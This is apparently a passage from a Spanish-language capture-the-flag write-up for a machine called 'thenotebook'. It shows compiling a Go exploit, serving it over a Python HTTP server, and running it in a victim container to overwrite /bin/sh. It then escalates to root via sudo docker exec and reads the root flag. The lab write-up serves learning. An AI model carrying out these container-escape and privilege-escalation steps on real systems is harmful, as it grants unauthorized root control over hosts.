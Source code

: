 ```R
❯ go build -ldflags "-s -w" main.go
❯ ll
.rwxr-xr-x user user 1.4 MB Sun Oct  6 18:20:29 2024  main
```
*Ahora compilamos el .go*

```R
❯ sudo python3 -m http.server 334
Serving HTTP on 0.0.0.0 port 334 (http://0.0.0.0:334/) ...
```
*Abrimos un lister con python...*

```R
root@0f4c2517af40:/opt/webapp cd /tmp/
root@0f4c2517af40:/tmp# chmod +x main
```
*Desde la máquina victima nos lo traemos...*

```R
root@0f4c2517af40:/tmp# ./main
[+] Overwritten /bin/sh successfully
```
*Ahora hemos conseguido ejecutar el exploit de fomra correcta...*

```R
noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh
# cat /root/root
```
*Ahora agregando esto nos tenemos que conectar como root.*


